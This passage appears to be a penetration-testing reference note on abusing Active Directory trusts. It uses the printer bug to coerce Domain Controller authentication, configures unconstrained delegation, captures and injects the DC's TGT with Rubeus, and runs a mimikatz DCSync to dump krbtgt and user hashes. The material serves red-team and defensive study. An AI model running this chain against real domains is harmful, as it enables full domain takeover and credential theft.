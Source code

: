 ```
SpoolSample.exe <TARGET_IP | TARGET_HOSTNAME> <LHOST_HOSTNAME>

printerbug.py [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<TARGET_IP | TARGET_HOSTNAME> <LHOST_HOSTNAME>
```

For more information, refer to the `[L7] MSRPC - MS-RPRN "printer bug"` note.

*Optional - configuration of unconstrained delegation on a controlled machine*

The Domain Controllers are trusted for `Kerberos` `unconstrained delegation`.

However, if a Domain Controller (exposing the `Print Spooler` service) of the
targeted forest is accessible from the attacking machine, a computer can be
joined to the domain and configured to be trusted for `unconstrained
delegation`. Doing so will allow to jump the trust with out deploying third
party tools on a Domain Controller.

```
Add-Computer -DomainName <DOMAIN> -Server <DOMAIN>\<DC_HOSTNAME> -Credential <<DOMAIN>\<USERNAME> | <PSCredential>> -Restart -Force

Get-ADComputer -Identity <CONTROLLED_MACHINE_HOSTNAME> | Set-ADAccountControl -TrustedForDelegation $True
```

*TGT extraction and usage*

The `TGT` of the Domain Controller machine account received after triggering
the `Print Spooler` service authentication can be extracted using `Rubeus`'s
`monitor` module:

```
# The TGTs will be extracted every 60 seconds by default.
Rubeus.exe monitor /nowrap /interval:<2 | INTERVAL_IN_SECONDS>
```

The base64 encoded ticket can be injected in the current session using, among
others, `Rubeus`'s `ptt` module:

```
Rubeus.exe ptt /ticket:<TICKET_BASE64 | TICKET_BASE64_FILE_PATH | TICKET_KIRBI_FILE_PATH>

# Confirms that the TGT is injected in the current session.
klist

  #X>     Client: <DC_MACHINE_ACCOUNT>$ @ <DOMAIN_FQDN>
          Server: krbtgt/<DOMAIN_FQDN> @ <DOMAIN_FQDN>
```

Replication operations, attack known as `DCSync`, can then be conducted,
using `mimikatz` for example, through the session in which the Domain
Controller machine account's `TGT` was injected. The specified Active
Directory objects' sensible information (`NTLM` hash and `Kerberos` secrets)
can be remotely retrieved.

```
mimikatz # lsadump::dcsync /domain:<DOMAIN_FQDN> /dc:<DC_FQDN> /user:<krbtgt | USERNAME>
```
